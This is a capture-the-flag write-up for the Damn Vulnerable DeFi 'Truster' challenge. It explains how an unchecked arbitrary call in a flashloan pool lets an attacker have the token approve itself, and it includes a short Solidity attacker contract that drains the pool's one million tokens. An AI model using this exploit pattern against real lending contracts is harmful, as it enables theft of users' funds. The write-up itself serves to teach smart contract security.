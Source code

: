 ## Truster

### **Problem:**
More and more lending pools are offering flashloans. In this case, a new pool has launched that is offering flashloans of DVT tokens for free.
The pool holds 1 million DVT tokens. You have nothing.
To pass this challenge, rescue all funds in the pool executing a single transaction. Deposit the funds into the designated recovery account.

### **Solution:**
The flashloan function takes the target contract address as an input, which will be responsible for repaying the debt. The function directly calls target.functionCall(data) from the Address library of OpenZeppelin, without validating the type of contract at the target address.

We exploit this behavior by initiating a flashloan with a borrowed amount of 0 tokens. We pass the address of the token contract as the target and provide the function signature of the approve function as the data. This results in the TrusterLenderPool contract approving tokens to our contract.

With this approval in place, our contract is able to transfer the entire token balance from the pool to itself, effectively bypassing the intended security checks.

### **Code:**
```javascript
contract Attacker {
    TrusterLenderPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(TrusterLenderPool _pool, DamnValuableToken _token, address _recovery) {
        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function attack() external {
        pool.flashLoan(0, address(this), address(token), abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint256).max));
        token.transferFrom(address(pool), recovery, 1_000_000e18);
    }        
}
```

